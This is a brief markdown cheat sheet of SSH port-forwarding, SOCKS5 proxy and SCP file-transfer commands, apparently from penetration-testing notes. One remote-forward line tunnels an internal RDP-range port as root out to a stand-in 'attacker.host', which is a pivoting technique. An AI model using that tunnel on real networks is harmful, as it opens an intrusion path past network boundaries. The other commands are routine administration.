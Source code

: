 #### port forward

* local port forward *

```ssh -L 8443:127.0.0.1:8443 user@remote.host```

* remote port forward *

```ssh -R 5901:127.0.0.1:5901 user@remote.host```

```ssh -l root -t -t -R 3389:10.10.10.1:3398 attacker.host```

```ssh -i id_rsa.key -L6969:machine.to.touch:80 machine.for.proxy```

-----


#### port forward SOCKS5

```ssh -D 5555 user@yourserver.com -p 5555```

-----


#### SCP transfers

*Local (file) to remote host specifying remote port*

```scp -P 1337 file.zip username@remotehost.com:/remote/dir/file.zip```

*Local (directory) to remote host using default port 22*

```scp /local/dir/ username@remotehost.com:/remote/dir/```

*Remote host A to remote host B*

```scp username@host-a.com:/host_a/dir/file.zip username@host-b.com:/host_b/dir/file.zip```

-----

